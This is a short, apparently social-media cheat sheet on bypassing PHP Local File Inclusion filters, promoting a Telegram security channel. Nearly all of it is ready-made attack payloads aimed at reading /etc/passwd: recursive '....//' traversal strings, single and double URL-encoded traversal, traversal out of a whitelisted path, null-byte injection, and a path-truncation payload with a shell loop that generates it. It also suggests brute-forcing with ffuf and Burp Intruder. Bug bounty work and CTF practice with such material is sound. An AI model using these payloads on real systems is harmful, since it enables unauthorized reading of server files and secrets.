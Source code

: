 ## 🛠 LFI Bypass Techniques — From Filters to Null Bytes

> LFI (Local File Inclusion) vulnerabilities can be deadly, but web apps often add filters to prevent exploitation. The good news? Most of them can be bypassed with smart tricks. Here's a full breakdown 👇

#### 🔍 1. Non-Recursive Filters Bypass

Many devs use basic replace filters like:
```
str_replace('../', '', $_GET['file']);
```
✅ Bypass: Use recursive variants like:
```
....//....//etc/passwd
..././..././etc/passwd
....\\\\....\\\\etc/passwd
```
🧠 These payloads escape basic filtering as they don’t get fully cleaned by single-pass filters.

#### 🔐 2. URL Encoding Bypass
If . and / are blocked:
```
%2e%2e%2f = ../
%252e%252e%252f = double encoded ../
```

✅ Try this:
```
language=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```
🧠 Use Burp Decoder or python3 -c 'import urllib.parse; print(urllib.parse.quote("../"))'

#### 📁 3. Whitelisted Paths (Regex)
If regex like this is used:
```
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
```

✅ Bypass by nesting:
```
language=./languages/../../../../etc/passwd
```
🧠 Start from approved path and traverse back.

#### 🧩 4. Appended Extension Bypass
Some apps auto-append .php:
```
include($_GET['page'] . '.php');
```
✅ Try reading .php source files (e.g., config.php) ✅ Or use Null Byte Injection on old PHP (<5.5):
```
/etc/passwd%00
```
#### ⚠️ 5. Path Truncation (Legacy Trick)

🧠 In PHP <5.3, strings >4096 chars get truncated.
✅ Payload:
```
non_existing_dir/../../../etc/passwd/././././././././.[repeat ~2048 times]
```
Generate:
```
echo -n "non_existing/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```
💡 Other Bypass Tips

▶️Try Null Byte %00 

▶️Mix slashes: \, //, \\\\

▶️Combine encodings + recursive tricks

▶️Brute-force with tools: ffuf, Burp Intruder

📚 LFI bypasses are critical in bug bounty and CTFs. Know your server version, test filters carefully, and automate with payload lists.

📢 For more deep-dive recon & exploit tips, join us at → [@cybersecplayground
](https://t.me/cybersecplayground)
❤️ Like & Share if you learned something new

#bugbounty #LFI #pentesting #exploit #infosec #cybersecurity #crypto #cryptotab
